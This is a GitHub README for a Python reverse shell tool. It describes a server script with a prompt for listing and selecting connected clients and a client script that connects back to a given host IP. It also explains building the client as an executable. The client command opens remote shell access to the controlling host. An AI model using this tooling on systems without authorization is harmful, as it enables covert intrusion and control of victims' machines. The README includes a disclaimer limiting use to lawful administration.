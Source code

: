 ![](http://i.imgur.com/d0WX8Tv.png)


# Overview

This is a multi-client, multi-threaded reverse shell written in Python. There is still a lot of work to do, so feel free to help out with development.

To learn more about this program, watch the [YouTube Python Reverse Shell Tutorial Series](https://www.youtube.com/watch?v=1ObzpG_W_0o&list=PL6gx4Cwl9DGCbpkBEMiCaiu_3OL-_Bz_8&index=1)

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 

# How to Use

To use this reverse shell, two scripts need to be running

* **server.py** - runs on a public server and waits for clients to connect
* **client.py** - connects to a remote server and then wait for commands

***

## Server

To set up server script, simply run **server.py** using Python 3.4

`python3 server.py`

You will then enter an interactive prompt where you are able to view connected clients, select a specific client, and send commands to that client remotely.

To list all current connections:

`turtle> list`

To select a target from the list of clients:

`turtle> select 3`

***

## Client

Run **client.py** with the host IP address as a program argument. For example:
``` sh
python3 client.py --host=192.168.0.5
```

If client does not have a compatible version of Python installed, you can create an executable by building from the source using **setup.py**.

`python setup.py build`

